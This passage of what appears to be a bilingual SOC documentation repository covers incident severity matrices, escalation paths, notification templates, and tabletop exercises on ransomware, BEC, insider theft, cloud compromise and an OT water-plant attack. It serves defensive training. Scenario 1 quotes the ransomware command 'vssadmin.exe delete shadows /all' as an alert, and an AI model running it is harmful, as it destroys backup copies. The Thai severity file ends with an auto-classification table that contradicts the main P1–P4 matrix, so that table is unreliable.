│ Firewall │ ⚠️    │ 98.0% │ 15 min ago    │
│ TI Feed  │ ✅    │ 99.8% │ 1 min ago     │
│ Ticketing│ ✅    │ 99.9% │ 3 min ago     │
└──────────┴───────┴───────┴───────────────┘
```

### Error Handling Framework

```mermaid
flowchart TD
    A[Playbook Error] --> B{Error Type?}
    B -->|Timeout| C[Retry with backoff]
    B -->|Auth Failure| D[Refresh credentials]
    B -->|API Limit| E[Queue and wait]
    B -->|Logic Error| F[Alert analyst]
    C --> G{Retry OK?}
    G -->|Yes| H[Continue]
    G -->|No| F
    D --> G
    E --> G
```

### Playbook Versioning Best Practices

| Version | Change Type | Example |
|:---|:---|:---|
| Major (v2.0) | Logic change | เพิ่ม decision branch |
| Minor (v1.1) | Enhancement | ปรับ threshold |
| Patch (v1.0.1) | Bug fix | แก้ typo / syntax |

### SOAR Playbook Naming Convention

```
Format: [Category]_[Action]_[Target]_v[Version]
Examples:
  Phishing_Triage_Email_v2.1
  Malware_Contain_Endpoint_v1.3
  TI_Enrich_IOC_v1.0
```

### Integration Status

| System | Connected |
|:---|:---|
| SIEM | ✅ |
| EDR | ✅ |

## เอกสารที่เกี่ยวข้อง

- [IR Playbooks](Playbooks/Phishing.th.md)
- [ตารางความรุนแรง](Severity_Matrix.th.md)
- [Detection Rules](../08_Detection_Engineering/README.md)


---

## File: 05_Incident_Response/Severity_Matrix.en.md

# Incident Severity Matrix

> **Document ID:** SEV-MATRIX-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager  

---

## Purpose

This matrix defines the **severity classification** (P1–P4) for all security incidents handled by the SOC. It standardizes response times, escalation paths, and team assignments to ensure consistent and timely incident handling.

---

## Severity Levels Overview

| Priority | Severity | Impact | Examples |
|:---:|:---|:---|:---|
| 🔴 **P1** | **Critical** | Business-stopping, data breach in progress, active ransomware | Ransomware encryption active, confirmed data exfiltration, critical infrastructure compromise, active APT intrusion |
| 🟠 **P2** | **High** | Significant impact, potential data loss, service degradation | Account compromise with lateral movement, malware outbreak (>5 hosts), DDoS affecting production, insider threat confirmed |
| 🟡 **P3** | **Medium** | Limited impact, contained threat, single-system compromise | Single endpoint malware, phishing (credentials entered but reset), unauthorized access attempt blocked, suspicious DNS activity |
| 🟢 **P4** | **Low** | Minimal impact, informational, policy violation | Failed login attempts, policy violation (USB usage), low-confidence alert, vulnerability scan detected |

---

## Service Level Agreements (SLA)

| Metric | 🔴 P1 Critical | 🟠 P2 High | 🟡 P3 Medium | 🟢 P4 Low |
|:---|:---:|:---:|:---:|:---:|
| **Acknowledgment** | ≤ 5 min | ≤ 15 min | ≤ 1 hour | ≤ 4 hours |
| **Initial Triage** | ≤ 15 min | ≤ 30 min | ≤ 2 hours | ≤ 8 hours |
| **Containment Start** | ≤ 30 min | ≤ 1 hour | ≤ 4 hours | Next business day |
| **Status Update Frequency** | Every 30 min | Every 1 hour | Every 4 hours | Daily |
| **Resolution Target** | ≤ 4 hours | ≤ 8 hours | ≤ 24 hours | ≤ 72 hours |
| **Post-Incident Review** | Within 24 hours | Within 48 hours | Within 1 week | Monthly batch review |

---

## Escalation Matrix

### P1 — Critical

```
┌─────────────────────────────────────────────────────────────────┐
│  T+0 min   │ SOC Analyst (Tier 1) detects & acknowledges       │
│  T+5 min   │ Escalate → Tier 2 Analyst + SOC Lead              │
│  T+15 min  │ Escalate → Incident Commander + CISO              │
│  T+30 min  │ Notify → CTO / CEO / Legal / PR (if data breach)  │
│  T+60 min  │ Activate → Full IR Team + External DFIR (if needed)│
└─────────────────────────────────────────────────────────────────┘
```

### P2 — High

```
┌─────────────────────────────────────────────────────────────────┐
│  T+0 min   │ SOC Analyst (Tier 1) detects & acknowledges       │
│  T+15 min  │ Escalate → Tier 2 Analyst                         │
│  T+30 min  │ Escalate → SOC Lead                               │
│  T+2 hours │ Notify → SOC Manager + CISO (if not contained)    │
└─────────────────────────────────────────────────────────────────┘
```

### P3 — Medium

```
┌─────────────────────────────────────────────────────────────────┐
│  T+0 min   │ SOC Analyst (Tier 1) detects & acknowledges       │
│  T+1 hour  │ Triage and investigate                            │
│  T+4 hours │ Escalate → Tier 2 (if complex or unresolved)      │
└─────────────────────────────────────────────────────────────────┘
```

### P4 — Low

```
┌─────────────────────────────────────────────────────────────────┐
│  T+0       │ SOC Analyst (Tier 1) detects & acknowledges       │
│  T+8 hours │ Investigate during normal working hours            │
│  Monthly   │ Batch review with SOC Lead                         │
└─────────────────────────────────────────────────────────────────┘
```

---

## Response Team Composition

| Role | P1 | P2 | P3 | P4 |
|:---|:---:|:---:|:---:|:---:|
| SOC Analyst (Tier 1) | ✅ | ✅ | ✅ | ✅ |
| SOC Analyst (Tier 2) | ✅ | ✅ | On-demand | — |
| SOC Lead | ✅ | ✅ | — | — |
| Incident Commander | ✅ | On-demand | — | — |
| CISO | ✅ | Notify | — | — |
| IT Operations | ✅ | ✅ | On-demand | — |
| Legal / Compliance | ✅ (if PII) | On-demand | — | — |
| PR / Communications | ✅ (if public) | — | — | — |
| External DFIR | On-demand | — | — | — |

---

## Severity Classification Decision Tree

```mermaid
graph TD
    A[New Alert / Incident] --> B{Active data destruction<br>or exfiltration?}
    B -->|Yes| P1[🔴 P1 Critical]
    B -->|No| C{Multiple systems<br>affected?}
    C -->|Yes| D{Business service<br>impacted?}
    D -->|Yes| P2H[🟠 P2 High]
    D -->|No| E{Lateral movement<br>detected?}
    E -->|Yes| P2H
    E -->|No| P3M[🟡 P3 Medium]
    C -->|No| F{Confirmed<br>compromise?}
    F -->|Yes| G{Credentials or<br>sensitive data?}
    G -->|Yes| P2H
    G -->|No| P3M
    F -->|No| H{Blocked by<br>controls?}
    H -->|Yes| P4L[🟢 P4 Low]
    H -->|No| P3M
```

---

## Communication Templates

### P1 Initial Notification (to Management)

```
SUBJECT: [P1-CRITICAL] Security Incident — Immediate Action Required

INCIDENT ID: INC-YYYY-XXXX
SEVERITY: P1 — CRITICAL
TIME DETECTED: [timestamp]
AFFECTED SYSTEMS: [list]
CURRENT STATUS: [Triage | Containment | Eradication]

SUMMARY:
[Brief description of what happened]

IMMEDIATE ACTIONS TAKEN:
1. [Action 1]
2. [Action 2]

NEXT UPDATE: [timestamp — within 30 minutes]

INCIDENT COMMANDER: [Name]
CONTACT: [Phone/Slack]
```

### P2–P4 Status Update

```
SUBJECT: [P2-HIGH] Incident Update — INC-YYYY-XXXX

STATUS: [In Progress | Contained | Resolved]
TIME ELAPSED: [X hours since detection]

PROGRESS:
- [What was done since last update]

NEXT STEPS:
- [Planned actions]

NEXT UPDATE: [timestamp]
```

---

## Severity Reclassification

Incidents may be **upgraded or downgraded** during investigation:

| Trigger | Action |
|:---|:---|
| Lateral movement discovered | Upgrade to P1 or P2 |
| Data exfiltration confirmed | Upgrade to P1 |
| Threat contained, no spread | Downgrade one level |
| False positive confirmed | Close or downgrade to P4 |
| Additional systems compromised | Upgrade one level |
| Regulatory data (PII/PHI) involved | Minimum P2 |

> **Rule:** Any severity change must be documented in the incident ticket with justification.

---

## Related Documents

- [Incident Response Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md)
- [Shift Handover Template](../11_Reporting_Templates/shift_handover.en.md)
- [Incident Report Template](../11_Reporting_Templates/incident_report.en.md)
- [MITRE ATT&CK Coverage Heatmap](../tools/mitre_attack_heatmap.html)

## References

- [NIST SP 800-61r2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [SANS Incident Handler's Handbook](https://www.sans.org/white-papers/33901/)
- [FIRST — Common Vulnerability Scoring System (CVSS)](https://www.first.org/cvss/)


---

## File: 05_Incident_Response/Severity_Matrix.th.md

# Incident Severity Matrix — ตารางระดับความรุนแรงของเหตุการณ์

> **รหัสเอกสาร:** SEV-MATRIX-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager  

---

## วัตถุประสงค์

ตารางนี้กำหนด **ระดับความรุนแรง** (P1–P4) สำหรับเหตุการณ์ด้านความปลอดภัยทั้งหมดที่ SOC รับผิดชอบ เพื่อให้การตอบสนอง, การ Escalate และการมอบหมายทีมเป็นมาตรฐานเดียวกัน

---

## ภาพรวมระดับความรุนแรง

| ลำดับ | ระดับ | ผลกระทบ | ตัวอย่าง |
|:---:|:---|:---|:---|
| 🔴 **P1** | **วิกฤต (Critical)** | ธุรกิจหยุดชะงัก, กำลังมีข้อมูลรั่วไหล, Ransomware กำลังทำงาน | Ransomware เข้ารหัสไฟล์อยู่, ยืนยันว่ามีข้อมูลรั่วไหล, ระบบโครงสร้างพื้นฐานถูกบุกรุก, APT กำลังทำงาน |
| 🟠 **P2** | **สูง (High)** | ผลกระทบมาก, มีโอกาสสูญเสียข้อมูล, บริการลดลง | บัญชีถูกยึดครองพร้อมเคลื่อนตัว, มัลแวร์ระบาด (>5 เครื่อง), DDoS กระทบ Production, ยืนยัน Insider Threat |
| 🟡 **P3** | **ปานกลาง (Medium)** | ผลกระทบจำกัด, ภัยคุกคามถูกควบคุม, ติดเครื่องเดียว | มัลแวร์ 1 เครื่อง, ฟิชชิ่ง (กรอกรหัสแล้วแต่รีเซ็ตทัน), การเข้าถึงโดยไม่ได้รับอนุญาตถูกบล็อก, DNS น่าสงสัย |
| 🟢 **P4** | **ต่ำ (Low)** | ผลกระทบน้อยมาก, ข้อมูลเสริม, ละเมิดนโยบาย | Login ล้มเหลว, ละเมิดนโยบาย (ใช้ USB), Alert ที่มั่นใจต่ำ, ตรวจจับ Vulnerability Scan |

---

## ข้อตกลงระดับบริการ (SLA)

| เมตริก | 🔴 P1 วิกฤต | 🟠 P2 สูง | 🟡 P3 ปานกลาง | 🟢 P4 ต่ำ |
|:---|:---:|:---:|:---:|:---:|
| **รับทราบ (Acknowledge)** | ≤ 5 นาที | ≤ 15 นาที | ≤ 1 ชั่วโมง | ≤ 4 ชั่วโมง |
| **คัดกรองเบื้องต้น (Triage)** | ≤ 15 นาที | ≤ 30 นาที | ≤ 2 ชั่วโมง | ≤ 8 ชั่วโมง |
| **เริ่มควบคุม (Containment)** | ≤ 30 นาที | ≤ 1 ชั่วโมง | ≤ 4 ชั่วโมง | วันทำการถัดไป |
| **อัปเดตสถานะ** | ทุก 30 นาที | ทุก 1 ชั่วโมง | ทุก 4 ชั่วโมง | รายวัน |
| **เป้าหมายแก้ไข (Resolution)** | ≤ 4 ชั่วโมง | ≤ 8 ชั่วโมง | ≤ 24 ชั่วโมง | ≤ 72 ชั่วโมง |
| **ทบทวนหลังเหตุการณ์ (PIR)** | ภายใน 24 ชั่วโมง | ภายใน 48 ชั่วโมง | ภายใน 1 สัปดาห์ | ทบทวนรวมรายเดือน |

---

## ตาราง Escalation

### P1 — วิกฤต

```
┌─────────────────────────────────────────────────────────────────────┐
│  T+0 นาที   │ SOC Analyst (Tier 1) ตรวจจับ & รับทราบ                │
│  T+5 นาที   │ Escalate → Tier 2 Analyst + SOC Lead                 │
│  T+15 นาที  │ Escalate → Incident Commander + CISO                 │
│  T+30 นาที  │ แจ้ง → CTO / CEO / Legal / PR (ถ้าข้อมูลรั่วไหล)       │
│  T+60 นาที  │ เปิดใช้ → ทีม IR เต็มรูปแบบ + DFIR ภายนอก (ถ้าจำเป็น) │
└─────────────────────────────────────────────────────────────────────┘
```

### P2 — สูง

```
┌─────────────────────────────────────────────────────────────────────┐
│  T+0 นาที     │ SOC Analyst (Tier 1) ตรวจจับ & รับทราบ              │
│  T+15 นาที    │ Escalate → Tier 2 Analyst                           │
│  T+30 นาที    │ Escalate → SOC Lead                                 │
│  T+2 ชั่วโมง  │ แจ้ง → SOC Manager + CISO (ถ้ายังควบคุมไม่ได้)       │
└─────────────────────────────────────────────────────────────────────┘
```

### P3 — ปานกลาง

```
┌─────────────────────────────────────────────────────────────────────┐
│  T+0 นาที     │ SOC Analyst (Tier 1) ตรวจจับ & รับทราบ              │
│  T+1 ชั่วโมง  │ คัดกรองและสืบสวน                                     │
│  T+4 ชั่วโมง  │ Escalate → Tier 2 (ถ้าซับซ้อนหรือแก้ไม่ได้)         │
└─────────────────────────────────────────────────────────────────────┘
```

### P4 — ต่ำ

```
┌─────────────────────────────────────────────────────────────────────┐
│  T+0         │ SOC Analyst (Tier 1) ตรวจจับ & รับทราบ               │
│  T+8 ชั่วโมง │ สืบสวนในเวลาทำการปกติ                                │
│  รายเดือน    │ ทบทวนรวมกับ SOC Lead                                 │
└─────────────────────────────────────────────────────────────────────┘
```

---

## องค์ประกอบทีมตอบสนอง

| บทบาท | P1 | P2 | P3 | P4 |
|:---|:---:|:---:|:---:|:---:|
| SOC Analyst (Tier 1) | ✅ | ✅ | ✅ | ✅ |
| SOC Analyst (Tier 2) | ✅ | ✅ | ตามความจำเป็น | — |
| SOC Lead | ✅ | ✅ | — | — |
| Incident Commander | ✅ | ตามความจำเป็น | — | — |
| CISO | ✅ | แจ้งให้ทราบ | — | — |
| IT Operations | ✅ | ✅ | ตามความจำเป็น | — |
| Legal / Compliance | ✅ (ถ้ามี PII) | ตามความจำเป็น | — | — |
| PR / สื่อสารองค์กร | ✅ (ถ้าเป็นข่าว) | — | — | — |
| DFIR ภายนอก | ตามความจำเป็น | — | — | — |

---

## แผนผังการจำแนกระดับความรุนแรง

```mermaid
graph TD
    A[Alert / เหตุการณ์ใหม่] --> B{มีการทำลายข้อมูล<br>หรือรั่วไหลอยู่?}
    B -->|ใช่| P1[🔴 P1 วิกฤต]
    B -->|ไม่| C{หลายระบบ<br>ได้รับผลกระทบ?}
    C -->|ใช่| D{บริการธุรกิจ<br>ได้รับผลกระทบ?}
    D -->|ใช่| P2H[🟠 P2 สูง]
    D -->|ไม่| E{ตรวจจับการเคลื่อนตัว<br>Lateral Movement?}
    E -->|ใช่| P2H
    E -->|ไม่| P3M[🟡 P3 ปานกลาง]
    C -->|ไม่| F{ยืนยันว่าถูก<br>บุกรุกแล้ว?}
    F -->|ใช่| G{มี Credentials หรือ<br>ข้อมูลสำคัญเกี่ยวข้อง?}
    G -->|ใช่| P2H
    G -->|ไม่| P3M
    F -->|ไม่| H{ถูกบล็อกโดย<br>ระบบป้องกัน?}
    H -->|ใช่| P4L[🟢 P4 ต่ำ]
    H -->|ไม่| P3M
```

---

## เทมเพลตการสื่อสาร

### P1 การแจ้งเตือนเบื้องต้น (ถึงผู้บริหาร)

```
หัวข้อ: [P1-วิกฤต] เหตุการณ์ด้านความปลอดภัย — ต้องดำเนินการทันที

รหัสเหตุการณ์: INC-YYYY-XXXX
ระดับความรุนแรง: P1 — วิกฤต
เวลาตรวจจับ: [timestamp]
ระบบที่ได้รับผลกระทบ: [รายการ]
สถานะปัจจุบัน: [คัดกรอง | ควบคุม | กำจัด]

สรุป:
[คำอธิบายสั้นๆ ว่าเกิดอะไรขึ้น]

การดำเนินการเร่งด่วน:
1. [การดำเนินการ 1]
2. [การดำเนินการ 2]

อัปเดตครั้งถัดไป: [timestamp — ภายใน 30 นาที]

ผู้บัญชาการเหตุการณ์: [ชื่อ]
ติดต่อ: [โทรศัพท์/Slack]
```

---

## การเปลี่ยนระดับความรุนแรง

เหตุการณ์อาจถูก **เลื่อนระดับขึ้นหรือลดลง** ระหว่างการสืบสวน:

| ปัจจัย | การดำเนินการ |
|:---|:---|
| ตรวจจับ Lateral Movement | เลื่อนเป็น P1 หรือ P2 |
| ยืนยันว่ามีข้อมูลรั่วไหล | เลื่อนเป็น P1 |
| ภัยคุกคามถูกควบคุม ไม่แพร่กระจาย | ลดลง 1 ระดับ |
| ยืนยันว่าเป็น False Positive | ปิด หรือลดเป็น P4 |
| พบระบบเพิ่มเติมถูกบุกรุก | เลื่อนขึ้น 1 ระดับ |
| มีข้อมูล PII/PHI ที่อยู่ภายใต้กฎหมาย | ไม่ต่ำกว่า P2 |

> **กฎ:** การเปลี่ยนระดับทุกครั้งต้องบันทึกใน Ticket พร้อมเหตุผล

---

## เอกสารที่เกี่ยวข้อง

- [Incident Response Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md)
- [แบบฟอร์มส่งมอบกะ](../11_Reporting_Templates/shift_handover.th.md)
- [แบบฟอร์มรายงานเหตุการณ์](../11_Reporting_Templates/incident_report.th.md)
- [แผนที่ Coverage MITRE ATT&CK](../tools/mitre_attack_heatmap.html)

### Severity Auto-classification Rules

| Condition | Auto-assign | Override |
|:---|:---|:---|
| PII data involved | Critical | CISO only |
| > 100 hosts affected | Critical | SOC Manager |
| Single endpoint malware | High | Tier 2 analyst |
| Policy violation | Medium | SOC Lead |
| Failed login attempt | Low | Auto-close if < 5 |

### Severity Escalation Path

| From | To | Trigger |
|:---|:---|:---|
| Low | Medium | Scope expansion |
| Medium | High | Data involved |
| High | Critical | Business impact |

## References

- [NIST SP 800-61r2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [SANS Incident Handler's Handbook](https://www.sans.org/white-papers/33901/)
- [FIRST — Common Vulnerability Scoring System (CVSS)](https://www.first.org/cvss/)


---

## File: 05_Incident_Response/Tabletop_Exercises.en.md

# Tabletop Exercise Scenarios — SOC Incident Response Training

> **Document ID:** TTX-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager / IR Lead  
> **Frequency:** Quarterly (minimum)

---

## Purpose

Structured tabletop exercises (TTX) to test and improve SOC incident response capabilities. Each scenario is designed for **60–90 minute sessions** with progressive difficulty levels (injects).

---

## How to Run a Tabletop Exercise

1. **Assign Roles**: Facilitator (reads injects), SOC Analysts (T1/T2), IR Lead, Management observer
2. **Set Ground Rules**: No wrong answers, focus on process not tools, time-boxed discussion per inject
3. **Walk Through Injects**: Facilitator reads each inject sequentially, team discusses response
4. **Document Decisions**: Record who does what, escalation paths taken, tools used
5. **Debrief (15 min)**: What went well? What gaps? What to improve?
6. **Action Items**: Assign owners and deadlines for improvements

---

## Scenario 1: Ransomware Attack on Finance Server

**Difficulty**: 🔴 Hard | **Duration**: 90 min | **Playbooks**: PB-02, PB-08, PB-12

### Background
Your organization is a mid-size financial services company. It's Friday 16:30. Most senior staff are leaving for the weekend.

### Inject 1 — Initial Alert (16:30)
> A Tier 1 analyst receives an EDR alert: `"Suspicious process: vssadmin.exe delete shadows /all"` on server `FIN-SVR-03` (Finance department file server).

**Discussion Points:**
- What is the severity? Who do you escalate to?
- Should you isolate the server immediately or investigate first?
- What additional data do you check in the SIEM?

### Inject 2 — Spreading (16:45)
> While investigating, two more alerts fire: `FIN-SVR-05` and `HR-SVR-01` show the same behavior. Users in Finance report they cannot open their files — filenames now end in `.locked`.

**Discussion Points:**
- How do you contain lateral movement? Which tools?
- Do you isolate the entire Finance VLAN or individual hosts?
- Who do you notify? (CISO, Legal, Management)

### Inject 3 — Ransom Note (17:00)
> A ransom note appears on `FIN-SVR-03`: "Your files are encrypted by BlackCat. Pay 50 BTC within 72 hours. Contact us at darkweb.onion..."

**Discussion Points:**
- Do you engage with the attacker? Why or why not?
- What is your communication plan? (Internal, customers, regulators)
- How do you assess backup integrity?

### Inject 4 — Data Exfiltration (17:15)
> Network team discovers 200GB was uploaded to an external IP over the past 48 hours from `FIN-SVR-03`. The data appears to include customer PII.

**Discussion Points:**
- This is now a data breach — what regulatory obligations apply? (PDPA 72-hour notification)
- How do you preserve evidence while restoring operations?
- Do you involve law enforcement?

### Inject 5 — Recovery Decision (17:30)
> Backups exist from Wednesday night. The CEO calls asking: "When will we be back online?"

**Discussion Points:**
- Can you restore from backup? What about Thursday/Friday data?
- What testing do you do before declaring recovery?
- How do you communicate the timeline to management?

### Expected Outcomes
- [ ] Incident severity correctly classified as P1
- [ ] Host isolation executed within 15 minutes
- [ ] CISO and Legal notified within 30 minutes
- [ ] Backup integrity verified before restoration
- [ ] PDPA notification timeline understood (72 hours)

---

## Scenario 2: Business Email Compromise (BEC)

**Difficulty**: 🟡 Medium | **Duration**: 60 min | **Playbooks**: PB-17, PB-05, PB-26

### Background
Monday morning, 09:00. Your CEO is traveling abroad for a conference.

### Inject 1 — Suspicious Email (09:00)
> The CFO receives an urgent email from what appears to be the CEO's email address: "I need you to process an urgent wire transfer of $250,000 to vendor account XXXX. NDA — don't discuss with anyone. Handle ASAP."

**Discussion Points:**
- How does the SOC become aware of this? (User report, email gateway, DLP?)
- What indicators do you check? (Headers, Reply-to, sending IP)
- Is this a phishing or BEC scenario? How do they differ?

### Inject 2 — It's Real... Almost (09:30)
> Investigation reveals the email came from `ceo@your-company.co` (not `.com`). The domain was registered 2 days ago. Two other executives received similar emails.

**Discussion Points:**
- How do you block the lookalike domain?
- Do you search for other emails from this domain?
- Should you alert all staff? How without causing panic?

### Inject 3 — Account Compromise Found (10:00)
> While investigating, you discover the CEO's real email account has a new forwarding rule sending all mail to an external Gmail address. MFA was bypassed using a stolen session token (AiTM attack).

**Discussion Points:**
- How do you remediate the compromised account? (PB-26)
- What data was potentially exposed via email forwarding?
- How do you check if the attacker accessed other systems via the CEO's credentials?

### Inject 4 — Money Already Sent (10:30)
> The CFO admits they already initiated one wire transfer of $85,000 before the SOC alert.

**Discussion Points:**
- How do you work with Finance to attempt fund recovery?
- What is the legal reporting process?
- How do you update your BEC detection procedures?

### Expected Outcomes
- [ ] Email headers analyzed correctly
- [ ] Lookalike domain blocked and reported
- [ ] Account compromise remediation completed (session revoke, MFA re-enroll)
- [ ] Forwarding rules identified and removed
- [ ] Financial fraud response process followed

---

## Scenario 3: Insider Threat — Data Theft

**Difficulty**: 🟡 Medium | **Duration**: 60 min | **Playbooks**: PB-14, PB-08

### Background
Wednesday. HR has confidentially informed the SOC that a senior engineer ("Alex") has submitted their resignation, effective in 2 weeks. Alex has access to source code and customer databases.

### Inject 1 — Enhanced Monitoring (Day 1)
> SOC is asked to enable enhanced monitoring on Alex's account. What do you monitor?

**Discussion Points:**
- What data sources do you enable/review? (DLP, CASB, endpoint, email)
- How do you do this without tipping off the employee?
- What legal/HR guidelines must you follow?

### Inject 2 — Suspicious Activity (Day 3)
> DLP alerts show Alex downloaded 2.5GB from the customer database via SQL query export. Alex also accessed the source code repository and cloned 3 repos not related to their current project.

**Discussion Points:**
- Is this conclusive or could it be legitimate?
- Do you confront Alex or continue monitoring?
- How do you preserve evidence chain of custody?

### Inject 3 — USB and Cloud (Day 5)
> Endpoint monitoring shows Alex connected a personal USB drive and copied files. CASB logs show uploads to a personal Google Drive from a corporate laptop.

**Discussion Points:**
- Do you revoke access immediately?
- How do you coordinate with HR and Legal?
- What evidence do you need for potential legal action?

### Inject 4 — Confrontation (Day 7)
> HR decides to have a meeting with Alex. They deny everything. Legal asks SOC: "Can you prove what was taken?"

**Discussion Points:**
- How do you compile a forensic report?
- What chain of custody requirements apply?
- How do you prevent the data from being used externally?

### Expected Outcomes
- [ ] Enhanced monitoring activated without detection by subject
- [ ] DLP alerts triaged correctly
- [ ] Evidence preserved with proper chain of custody
- [ ] HR/Legal coordination followed corporate policy
- [ ] Post-incident access review completed

---

## Scenario 4: Cloud Infrastructure Compromise

**Difficulty**: 🔴 Hard | **Duration**: 90 min | **Playbooks**: PB-16, PB-27, PB-07

### Background
Thursday, 02:00 AM. An automated alert fires from AWS GuardDuty.

### Inject 1 — GuardDuty Alert (02:00)
> GuardDuty: `"UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS"` — IAM credentials from EC2 instance `prod-api-01` used from an IP in Eastern Europe.

**Discussion Points:**
- What is the severity at 2 AM? How do you handle after-hours escalation?
- What do you check first? (CloudTrail, VPC Flow Logs)
- Should you rotate credentials immediately or investigate first?

### Inject 2 — Privilege Escalation (02:30)
> CloudTrail shows: The compromised role was used to call `iam:CreateUser`, `iam:AttachUserPolicy`, and `iam:CreateAccessKey` — a new admin user was created.

**Discussion Points:**
- How do you contain without breaking production?
- What is the blast radius? Which services does this role have access to?
- How do you identify the initial access vector? (SSRF? Leaked key?)

### Inject 3 — Crypto Mining + S3 Exposure (03:00)
> 20 new `c5.4xlarge` instances are spinning up in `us-east-1`. Also, S3 bucket `prod-customer-data` policy was changed to public.

**Discussion Points:**
- How do you stop the cryptomining instances AND secure the S3 bucket?
- Is customer data exposed? How do you assess?
- Cost implications — who do you notify about unexpected AWS charges?

### Inject 4 — Root Cause (04:00)
> Investigation reveals an SSRF vulnerability in the API allowed accessing the EC2 instance metadata service (`169.254.169.254`), leaking IAM credentials.

**Discussion Points:**
- How do you fix the SSRF immediately?
- Should you move to IMDSv2?
- What other EC2 instances might be vulnerable?

### Expected Outcomes
- [ ] After-hours escalation plan executed
- [ ] Compromised credentials rotated
- [ ] Unauthorized IAM user removed
- [ ] S3 bucket re-secured and access logs reviewed
- [ ] Root cause (SSRF) identified and remediated

---

## Scenario 5: OT/ICS — Water Treatment Attack

**Difficulty**: 🔴🔴 Critical | **Duration**: 90 min | **Playbooks**: PB-30

### Background
Your organization operates a water treatment plant. Saturday, 06:00 AM.

### Inject 1 — HMI Anomaly (06:00)
> Night shift operator notices the HMI showing sodium hydroxide (NaOH) dosing levels were changed from 100ppm to 1,100ppm. No operator made this change.

**Discussion Points:**
- **SAFETY FIRST**: What is the immediate physical safety action?
- How do you engage the OT engineer?
- Is this a cyber incident or an equipment malfunction?

### Inject 2 — IT-OT Boundary (06:30)
> Investigation shows a VPN connection from an unknown IP to the engineering workstation at 04:00 AM. The TeamViewer service was running on the workstation.

**Discussion Points:**
- How did the attacker get VPN credentials?
- What is the IT-OT network segmentation? Was it breached?
- Do you shut down VPN access entirely?

### Inject 3 — Regulatory and Public (07:00)
> Local government health authority calls — they received an anonymous tip about "contaminated water." Media coverage is starting.

**Discussion Points:**
- Who handles external communications?
- What are your regulatory reporting obligations?
- How do you assure the public while investigation is ongoing?

### Inject 4 — Recovery (08:00)
> The NaOH levels were corrected manually. PLC logs show the change originated from the engineering workstation. Water quality tests confirm no contamination reached the distribution system.

**Discussion Points:**
- How do you verify PLC logic integrity?
- What enhanced monitoring do you implement?
- How do you rebuild the engineering workstation?

### Expected Outcomes
- [ ] Physical safety activated immediately
- [ ] OT engineer engaged within 15 minutes
- [ ] IT-OT access severed during investigation
- [ ] Regulatory notification made per requirements
- [ ] PLC logic validated against golden baseline

---

## Scoring Rubric

Use this rubric to evaluate team performance after each exercise:

| Category | Score 1–5 | What to Assess |
|:---|:---:|:---|
| **Detection Speed** | _/5 | How quickly was the threat identified? |
| **Escalation Accuracy** | _/5 | Correct severity? Right people notified? |
| **Containment** | _/5 | Effective isolation without breaking things? |
| **Communication** | _/5 | Clear internal/external comms? |
| **Evidence Handling** | _/5 | Proper preservation and chain of custody? |
| **Recovery Planning** | _/5 | Realistic timeline? Tested before restoring? |
| **Process Adherence** | _/5 | Followed playbooks? Used correct tools? |

**Total: ___/35**

| Score | Rating |
|:---:|:---|
| 30–35 | 🟢 Excellent — minor improvements only |
| 22–29 | 🟡 Good — some gaps to address |
| 15–21 | 🟠 Developing — significant process gaps |
| <15 | 🔴 Needs Work — fundamental issues to fix |

---

## Exercise Calendar Template

| Quarter | Scenario | Focus Area | Participants |
|:---:|:---|:---|:---|
| Q1 | Ransomware (#1) | Containment + Recovery | SOC + IT Ops + Management |
| Q2 | BEC (#2) | Detection + Communication | SOC + Finance + Legal |
| Q3 | Insider Threat (#3) | Monitoring + Evidence | SOC + HR + Legal |
| Q4 | Cloud Compromise (#4) | Cloud IR + Escalation | SOC + Cloud Team + DevOps |
| Annual | OT/ICS (#5) | Safety + OT Coordination | SOC + OT Engineers + Safety |

---

## Related Documents

- [IR Framework](Framework.en.md)
- [Severity Matrix](Severity_Matrix.en.md)
- [SOAR Playbook Templates](SOAR_Playbooks.en.md)
- [All Playbooks (PB-01 to PB-30)](Playbooks/Phishing.en.md)


---

## File: 05_Incident_Response/Tabletop_Exercises.th.md

# สถานการณ์จำลองการซ้อม — SOC Incident Response Training

> **รหัสเอกสาร:** TTX-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager / IR Lead  
> **ความถี่:** ทุกไตรมาส (อย่างน้อย)

---

## วัตถุประสงค์

สถานการณ์จำลอง Tabletop Exercise (TTX) เพื่อทดสอบและพัฒนาความสามารถในการตอบสนองเหตุการณ์ของ SOC แต่ละสถานการณ์ใช้เวลา **60–90 นาที** พร้อมระดับความยากที่เพิ่มขึ้นตามลำดับ

---

## วิธีจัดการซ้อม

1. **กำหนดบทบาท**: ผู้ดำเนินรายการ (อ่าน inject), SOC Analysts, IR Lead, ผู้สังเกตการณ์จากผู้บริหาร
2. **กฎ**: ไม่มีคำตอบผิด, โฟกัสที่กระบวนการ, จำกัดเวลาแต่ละ inject
3. **เดินตาม Inject**: ผู้ดำเนินรายการอ่านแต่ละ inject ทีมอภิปรายแนวทาง
4. **บันทึก**: ใครทำอะไร, escalation path, เครื่องมือที่ใช้
5. **สรุป (15 นาที)**: อะไรดี? ขาดอะไร? ปรับอะไร?
6. **Action Items**: กำหนดผู้รับผิดชอบและกำหนดเวลา

---

## สถานการณ์ 1: Ransomware โจมตีเซิร์ฟเวอร์การเงิน

**ระดับ**: 🔴 ยาก | **เวลา**: 90 นาที | **Playbooks**: PB-02, PB-08, PB-12

### Inject 1 — แจ้งเตือนแรก (16:30)
> Analyst ได้รับ EDR alert: `"vssadmin.exe delete shadows /all"` บนเซิร์ฟเวอร์ `FIN-SVR-03` (File server ฝ่ายการเงิน) วันศุกร์ 16:30

**คำถามอภิปราย:**
- ระดับความรุนแรงเท่าไหร่? แจ้งใคร?
- ควร isolate ทันทีหรือสืบสวนก่อน?
- ตรวจข้อมูลอะไรเพิ่มใน SIEM?

### Inject 2 — แพร่กระจาย (16:45)
